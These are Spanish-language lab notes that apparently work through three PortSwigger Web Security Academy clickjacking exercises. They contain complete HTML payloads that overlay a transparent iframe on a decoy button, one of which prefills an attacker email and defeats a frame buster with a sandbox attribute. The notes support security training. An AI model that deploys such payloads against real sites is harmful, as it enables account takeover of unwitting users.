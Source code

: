
# Clickjacking básico con protección de token CSRF

Esta práctica de laboratorio contiene funciones de inicio de sesión y un botón para eliminar cuenta que está protegido por un token CSRF. Un usuario hará clic en elementos que muestran la palabra "hacer clic" en un sitio web señuelo.

Para resolver la práctica de laboratorio, cree algo de HTML que enmarque la página de la cuenta y engañe al usuario para que elimine su cuenta. El laboratorio se soluciona cuando se elimina la cuenta.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:`wiener:peter`

El atacante carga una página web legítima dentro de un iframe (un marco embebido en otra página web) y luego coloca elementos visuales sobre ese iframe para engañar al usuario. Por ejemplo, el atacante puede colocar un botón "Cancelar" visible, pero en realidad, debajo de ese botón hay un botón "Confirmar compra" del sitio legítimo. Cuando el usuario hace clic en "Cancelar", está en realidad haciendo clic en "Confirmar compra".

![[Pasted image 20240618102818.png]]
![[Pasted image 20240618104240.png]]
![[Pasted image 20240618103900.png]]

# Clickjacking con datos de entrada de formulario precargados desde un parámetro de URL

Esta práctica de laboratorio amplía el ejemplo de clickjacking básico en [Laboratorio: Clickjacking básico con protección de token CSRF](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected) . El objetivo del laboratorio es cambiar la dirección de correo electrónico del usuario completando previamente un formulario usando un parámetro de URL e incitando al usuario a hacer clic sin darse cuenta en el botón "Actualizar correo electrónico".

Para resolver el laboratorio, cree algo de HTML que enmarque la página de la cuenta y engañe al usuario para que actualice su dirección de correo electrónico haciendo clic en el señuelo "Haz clic en mí". El laboratorio se soluciona cuando se cambia la dirección de correo electrónico.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:`wiener:peter`

![[Pasted image 20240618161417.png]]
```
<!DOCTYPE html>
<html lang="en">
<body>
    <style>
        iframe {
            position:relative;
            width: 500px;
            height: 700px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position:absolute;
            top: 440.5px;
            left: 45px;;
            z-index: 1;
        }
        button.buttom{
            border: none;
            user-select: none;
            background-color: #159c80;
            color: #fff;
            font-size: 16px;
            font-weight: bold;
            padding: 7px 1em;
            text-align: center;
            text-decoration: none !important;
            white-space: nowrap;
            min-width: 120px;
            border-radius: 25px;
        }
    </style>
    <div>
        <button class="buttom" type="submit">Click me</button>
    </div>
    <iframe src="https://0a8b006103ca2bcb83f5c33600a90017.web-security-academy.net/my-account?email=hacker@gmail.com"></iframe>    
</body>
</html>
```
![[Pasted image 20240618161647.png]]

# Clickjacking con un script de destrucción de fotogramas

Este laboratorio está protegido por un frame buster que evita que el sitio web se enmarque. ¿Puedes evitar el frame buster y realizar un [ataque de clickjacking](https://portswigger.net/web-security/clickjacking) que cambie la dirección de correo electrónico de los usuarios?

Para resolver la práctica de laboratorio, cree algo de HTML que enmarque la página de la cuenta y engañe al usuario para que cambie su dirección de correo electrónico haciendo clic en "Haga clic en mí". El laboratorio se soluciona cuando se cambia la dirección de correo electrónico.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:`wiener:peter`

![[Pasted image 20240619102618.png]]

**`sandbox="allow-forms"`**: Este atributo agrega restricciones de seguridad al iframe. En este caso, solo se permite el envío de formularios desde dentro del iframe. Todas las demás acciones (como ejecutar scripts, abrir ventanas emergentes, etc.) están restringidas.

```
<!DOCTYPE html>
<html lang="en">
<body>
    <style>
        iframe {
            position:relative;
            width: 500px;
            height: 700px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position:absolute;
            top: 440.5px;
            left: 45px;;
            z-index: 1;
        }
        button.buttom{
            border: none;
            user-select: none;
            background-color: #159c80;
            color: #fff;
            font-size: 16px;
            font-weight: bold;
            padding: 7px 1em;
            text-align: center;
            text-decoration: none !important;
            white-space: nowrap;
            min-width: 120px;
            border-radius: 25px;
        }
    </style>
    <div>
        <button class="buttom">Click me</button>
    </div>

    <iframe sandbox="allow-forms" src="https://0a8c004a04ac788e825dfb88003100fb.web-security-academy.net/my-account?email=hacker@gmail.com"></iframe>    
</body>
</html>
```
![[Pasted image 20240619102731.png]]

